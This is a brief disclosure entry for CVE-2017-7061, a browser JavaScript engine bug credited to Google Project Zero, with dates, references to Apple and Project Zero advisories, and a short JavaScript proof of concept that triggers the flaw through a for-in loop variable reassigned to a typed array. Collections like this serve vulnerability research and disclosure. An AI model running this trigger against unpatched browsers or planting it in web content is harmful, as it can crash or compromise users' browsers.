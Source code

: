 # CVE-2017-7061

- Report: May 2017
- Fix: Jul 2017
- Credit: lokihardt, Google Project Zero

## PoC

```javascript
let o = {};
for (let i in {xx: 0}) {
    for (let j = 0; j < 2; j++) {
        o[i];
        i = new Uint32Array([0, 1, 0x777777, 0, 0]);
    }
}
```

## Reference

- [Apple](https://support.apple.com/ko-kr/HT207921)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1263)
